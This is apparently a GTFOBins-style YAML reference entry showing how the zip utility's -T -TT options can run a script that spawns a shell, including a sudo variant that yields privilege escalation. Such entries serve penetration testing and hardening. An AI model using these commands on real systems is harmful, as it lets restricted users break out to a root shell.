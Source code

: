 ```yaml
---
functions:
  execute-interactive:
    - code: echo "/bin/sh" > /tmp/run.sh
            chmod +x /tmp/run.sh
            zip z.zip * -T -TT /tmp/run.sh
  sudo-enabled:
    - code: echo "/bin/sh" > /tmp/run.sh
            chmod +x /tmp/run.sh
            sudo zip z.zip * -T -TT /tmp/run.sh
---
```

